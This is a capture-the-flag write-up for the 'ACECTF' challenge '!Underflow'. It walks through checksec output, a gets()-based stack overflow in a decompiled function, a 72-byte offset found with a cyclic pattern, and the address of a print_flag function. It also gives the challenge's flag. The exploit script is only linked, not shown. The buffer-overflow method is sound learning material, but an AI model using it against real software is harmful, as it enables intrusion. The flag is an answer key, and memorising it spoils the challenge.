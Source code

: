 ## **Challenge Name: !Underflow**

### **Solves**
- **Solves**: 388
- **Points**: 100

### **Description**

You know that moment when you're packing for a trip as a kid & your parents try to fit in a little more than the suitcase's capacity everytime, do not try that here. Something simple to warm you up.

Connect using nc 192.168.228.129 1337

---

### **Approach**  

Download the given binary and run checksec,

```bash
┌──(kali㉿kali)-[~/Desktop/tmp]
└─$ checksec exploit-me                            
[*] '/home/kali/Desktop/tmp/exploit-me'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

No PIE, No Canary, nothing to worry about here.

Let's look how the binary behaves when we run it.

Ok, so program asks for a name and then prints it out.

We can have 2 straight derivations,

1. Buffer Overflow
2. Format String Vuln
   
Buffer flow occurs when user supplied input is bigger than the allocated size for the input, this causes the stack to be overwritten.

Format string occurs when......(TODO)

Let's decompile & look for buffer overflow.

The hello function does show the use of gets() function which is vulnerable to buffer overlow.

```c
void hello(void)

{
  char local_48 [64];
  
  puts("Enter your name:");
  gets(local_48);
  printf("Hello, %s\n",local_48);
  return;
}
```
64 is the stack size, so let's start by inputting a string of length 64 & keep on increasing untill we find a core dump.

We find out the core dump at size 72.

```bash
┌──(kali㉿kali)-[~/Desktop/tmp]
└─$ cyclic 72 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaa
                                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop/tmp]
└─$ ./exploit-me 
Enter your name:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaa
Hello, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaa
zsh: segmentation fault (core dumped)  ./exploit-me
```

Now, let's find out the address of the flag printing function using gdb.

```bash
0x0000000000401156  print_flag
```

Ok, so we have our padding of 72 & the target function 0x0000000000401156 which prints the flag.

Let's try to exploit locally & then, remote.

Use [script.py](Resources/script.py) to get the flag.

P.S. - I accidentally uploaded the binary with the flag, but this was the intended solution and not getting it through strings or decompilation.

---

### **Flag**
```
ACECTF{buff3r_0v3rfl3w}
```
---

